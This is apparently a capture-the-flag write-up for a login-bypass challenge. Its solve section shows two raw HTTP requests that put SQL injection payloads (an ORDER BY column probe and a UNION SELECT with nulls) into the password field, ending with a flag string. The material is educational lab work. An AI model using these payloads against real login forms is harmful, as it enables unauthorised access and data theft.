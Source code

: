 **The Consortium** controls an access system that is believed to be impenetrable. Supposedly, no one can get in without the correct credentials. But you're a hacker, and you know that no system is truly impregnable.

The challenge lies before you: a simple login form. Can you find a way to bypass the protections and access the hidden data?

---

_**NOTE**: No other url is part of the challenge._

To access the challenge, click on the following link: [https://challenges.plumberion.click/system-access](https://challenges.plumberion.click/system-access)

## Solve

```
POST /system-access HTTP/2
Host: challenges.plumberion.click
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://challenges.plumberion.click
Referer: https://challenges.plumberion.click/system-access
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

username=admin&password=admin'+order+by+3-- 
```

```
POST /system-access HTTP/2
Host: challenges.plumberion.click
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://challenges.plumberion.click
Referer: https://challenges.plumberion.click/system-access
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

username=admin&password=admin'+union+select+null,null,null+-- 
```


```
H4345345C
```
